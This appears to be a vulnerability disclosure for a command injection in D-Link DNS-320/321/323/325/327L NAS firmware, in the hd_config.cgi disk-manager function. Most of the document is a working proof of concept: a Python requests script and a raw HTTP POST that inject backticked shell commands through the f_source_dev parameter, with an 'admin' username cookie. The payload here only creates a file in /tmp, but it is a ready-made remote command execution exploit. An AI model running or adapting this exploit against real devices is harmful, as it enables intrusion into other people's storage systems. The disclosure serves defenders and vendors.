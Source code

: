 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_R12R5_2nd_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 43 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736014426-7d88430e-e077-4a10-9200-d28f8e60ec6a.png#averageHue=%23fafaf9&clientId=u074704ca-4b47-4&from=paste&height=204&id=uf5703a54&originHeight=204&originWidth=1002&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36729&status=done&style=none&taskId=u9e95d2ae-536b-4165-8ca0-343680181a4&title=&width=1002)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736019123-7c0990bc-da16-438f-8273-6c528438d547.png#averageHue=%23fefefd&clientId=u074704ca-4b47-4&from=paste&height=121&id=u4bedaffe&originHeight=121&originWidth=1184&originalType=binary&ratio=1&rotation=0&showTitle=false&size=19577&status=done&style=none&taskId=ufc713e75-08be-4879-8309-92661d7f528&title=&width=1184)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_R12R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/129`,`touch+/tmp/129`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 70
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_R12R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/129`,`touch+/tmp/129`&f_file_system=1&f_newly_dev=1
```

